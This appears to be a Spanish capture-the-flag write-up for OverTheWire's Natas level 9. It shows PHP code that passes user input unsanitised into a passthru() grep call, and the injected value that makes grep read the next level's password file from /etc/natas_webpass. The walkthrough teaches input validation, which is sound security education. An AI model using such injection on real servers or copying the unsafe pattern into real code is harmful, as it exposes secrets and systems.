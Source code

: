 La página inicial nos muestra el texto `Find words containing` junto con un cuadro de búsqueda con campo `needle` y el siguiente código:
```php
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {    passthru("grep -i $key dictionary.txt");  
}  
?>
```

Aquí se reemplaza el valor ingresado en `needle` dentro del comando `grep -i $key dictionary.txt` que devolverá el texto de `dictionary.txt`, que coincida con el patrón ingresado.

Recordando las instrucciones iniciales de Natas, todos los niveles tienen acceso a la contraseña del nivel siguiente a través de la ruta `/etc/natas_webpass/` y observamos que podemos modificar el valor de `needle` para realizar la búsqueda en esta ruta.

Modificamos `needle` con el valor `. /etc/natas_webpass/natas10 #` para devolver el contenido de `/etc/natas_webpass/natas10`, dónde:
* `.` hace coincidir todo el texto del archivo.
* `/etc/natas_webpass/natas10` es la ruta del archivo.
* `#` comenta el resto de la línea para evitar el contenido de `dictionary.txt`

Obteniendo este comando:
```
grep -i . /etc/natas_webpass/natas10 # dictionary.txt
```

Al enviar `. /etc/natas_webpass/natas10 #` en el formulario vemos la contraseña del nivel siguiente.

---
## **Conclusión**

Este nivel demuestra la importancia de validar y limpiar las entradas del usuario, especialmente cuando se utilizan en comandos del sistema. Permitir que las entradas interactúen directamente con funciones como `passthru()` abre la puerta a vulnerabilidades graves, como la ejecución arbitraria de comandos. 

---
-,"  
[_P